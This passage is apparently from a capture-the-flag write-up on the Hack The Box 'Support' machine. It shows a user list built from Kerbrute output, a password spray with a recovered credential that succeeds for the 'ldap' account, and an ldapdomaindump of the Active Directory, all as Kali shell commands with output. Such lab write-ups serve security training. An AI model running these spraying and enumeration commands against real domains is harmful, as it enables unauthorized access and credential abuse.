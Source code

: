 We have five valid usernames. Let's create a userlist from that output:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# cat kerb-user.txt | grep USERNAME: | cut -d ' ' -f 8 > users.txt

┌──(root㉿kali)-[~/htb/support]
└─# cat users.txt 
administrator@support.htb
guest@support.htb
management@support.htb
ldap@support.htb
support@support.htb
 ```

Now try a password spray with Kerbrute, the usernames, and the password we found before:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# ./kerbrute_linux_amd64 passwordspray -d support.htb --dc support.htb users.txt 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 08/07/22 - Ronnie Flathers @ropnop

2022/08/07 23:17:49 >  Using KDC(s):
2022/08/07 23:17:49 >   support.htb:88
2022/08/07 23:17:49 >  [+] VALID LOGIN:  ldap@support.htb:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
2022/08/07 23:17:49 >  Done! Tested 5 logins (1 successes) in 0.098 seconds
```

## Ldapdomaindump

So now we have a user called ldap with valid credentials. Next we can use ldapdomaindump, just like we did on the box [Intelligence](https://pencer.io/ctf/ctf-htb-intelligence/) a while back, to get get the whole directory:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# ldapdomaindump 10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

This gives us a number of files containing everything from AD:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# ll
-rw-r--r-- 1 root root    2454 Aug  8 22:07 domain_computers_by_os.html
-rw-r--r-- 1 root root     669 Aug  8 22:07 domain_computers.grep
-rw-r--r-- 1 root root    1848 Aug  8 22:07 domain_computers.html
-rw-r--r-- 1 root root    9793 Aug  8 22:07 domain_computers.json
-rw-r--r-- 1 root root   10334 Aug  8 22:07 domain_groups.grep
-rw-r--r-- 1 root root   17332 Aug  8 22:07 domain_groups.html
-rw-r--r-- 1 root root   79816 Aug  8 22:07 domain_groups.json
-rw-r--r-- 1 root root     265 Aug  8 22:07 domain_policy.grep
-rw-r--r-- 1 root root    1161 Aug  8 22:07 domain_policy.html
-rw-r--r-- 1 root root    5608 Aug  8 22:07 domain_policy.json
-rw-r--r-- 1 root root      71 Aug  8 22:07 domain_trusts.grep
-rw-r--r-- 1 root root     828 Aug  8 22:07 domain_trusts.html
```